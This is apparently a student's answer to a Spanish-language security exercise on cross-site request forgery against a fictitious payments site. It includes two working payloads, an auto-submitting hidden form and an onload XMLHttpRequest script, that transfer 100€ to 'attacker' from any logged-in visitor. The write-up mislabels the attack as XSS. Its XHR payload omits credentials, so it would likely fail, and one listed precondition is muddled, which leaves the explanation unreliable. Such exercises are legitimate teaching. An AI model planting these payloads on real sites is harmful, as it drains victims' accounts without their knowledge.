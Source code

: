 Prácticamente al acceder a la página, te redirecciona directo a la página de donar.

Código: 

```html
<form id="attackForm" action="http://web.pagos/donate.php" method="post">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="attacker">
</form>
<script>
    document.getElementById("attackForm").submit();
</script>
```

c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

- Permitir donaciones entre usuarios registrados
- No requerir confirmación adicional del usuario receptor de la donación
- Los usuarios deben de haber iniciado sesión en sus cuentas en ‘web.pagos’
- El usuario receptor de la donación debe tener una cuenta válida y suficiente saldo en su cuenta para recibir la donación.

d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

No quedaría del todo blindado completamente debido a que sería posible realizar ataques XSS si los parámetros se incorporan directamente en el cuerpo de la solicitud POST sin una adecuada validación y sanitización.

Si ponemos esto en un comentario:

```html
<script>
    // Realizar ataque de forma automática al cargar la página
    document.addEventListener("DOMContentLoaded", function() {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://web.pagos/donate.php");
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("amount=100&receiver=attacker");
    });
</script>

```

Cuando aceda a la página que se encuentre el script, resultaría en una solicitud POST con los parámetros "amount" y "receiver" establecidos en valores específicos, sin que el usuario tenga conocimiento de ello.
